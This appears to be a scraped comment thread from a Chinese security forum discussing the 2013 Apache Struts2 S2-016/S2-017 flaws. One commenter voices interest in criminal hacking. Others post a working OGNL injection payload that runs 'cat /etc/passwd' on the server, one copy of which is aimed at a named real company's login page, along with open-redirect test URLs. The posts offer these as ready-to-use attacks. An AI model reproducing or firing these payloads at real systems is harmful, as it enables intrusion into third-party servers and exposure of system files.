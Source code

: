 想投身黑产，木有门路啊
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=12990#respond)
1. ![]() z0mbie []() 2013-07-17    9楼

小弟看不懂，哪位能给个执行命令的语句
[亮了]()(7)
[回复](http://www.freebuf.com/vuls/?replytocom=12992#respond)
1. [![]()](http://www.freebuf.com/?author=3777) [uj70ky7b ](http://www.freebuf.com/author/uj70ky7b) (1级)  []() 2013-07-17    10楼

刷你妹妹的分啊，能吃吗. 一分等于几万块啊。
[亮了]()(8)
[回复](http://www.freebuf.com/vuls/?replytocom=13002#respond)
1. ![]() X []() 2013-07-17    11楼

?redirect:${%23a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{'cat','/etc/passwd'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew java.io.InputStreamReader(%23b),%23d%3dnew java.io.BufferedReader(%23c),%23e%3dnew char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}

[亮了]()(30)
[回复](http://www.freebuf.com/vuls/?replytocom=13005#respond)
1. [![]()](http://www.freebuf.com/?author=3432) [yplinfo ](http://www.freebuf.com/author/yplinfo) (1级) 一句话木马 []() 2013-07-17    12楼

哎，SB才刷分
[亮了]()(1)
[回复](http://www.freebuf.com/vuls/?replytocom=13006#respond)
1. ![]() Cr0w []() 2013-07-17    13楼

S2-17
[http://host/struts2-showcase/fileupload/upload.action?redirect:http://www.yahoo.com/](http://host/struts2-showcase/fileupload/upload.action?redirect:http://www.yahoo.com/)
[http://host/struts2-showcase/modelDriven/modelDriven.action?redirectAction:http://www.google.com/%23](http://host/struts2-showcase/modelDriven/modelDriven.action?redirectAction:http://www.google.com/%23)
[亮了]()(3)
[回复](http://www.freebuf.com/vuls/?replytocom=13007#respond)
1. ![]() 生生不息 []() 2013-07-17    14楼

[https://kf.sf-express.com/css/loginmgmt/index.action?redirect:$](https://kf.sf-express.com/css/loginmgmt/index.action?redirect:$){%23a%3d%28new%20java.lang.ProcessBuilder%28new%20java.lang.String[]{%27cat%27,%27/etc/passwd%27}%29%29.start%28%29,%23b%3d%23a.getInputStream%28%29,%23c%3dnew%20java.io.InputStreamReader%28%23b%29,%23d%3dnew%20java.io.BufferedReader%28%23c%29,%23e%3dnew%20char[50000],%23d.read%28%23e%29,%23matt%3d%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29,%23matt.getWriter%28%29.println%28%23e%29,%23matt.getWriter%28%29.flush%28%29,%23matt.getWriter%28%29.close%28%29}
[亮了]()(11)
[回复](http://www.freebuf.com/vuls/?replytocom=13009#respond)
1. [![]()](http://www.freebuf.com/?author=3687) [lock ](http://www.freebuf.com/author/lock) (6级) fork you! []() 2013-07-17    15楼

import urllib2,getopt,sys
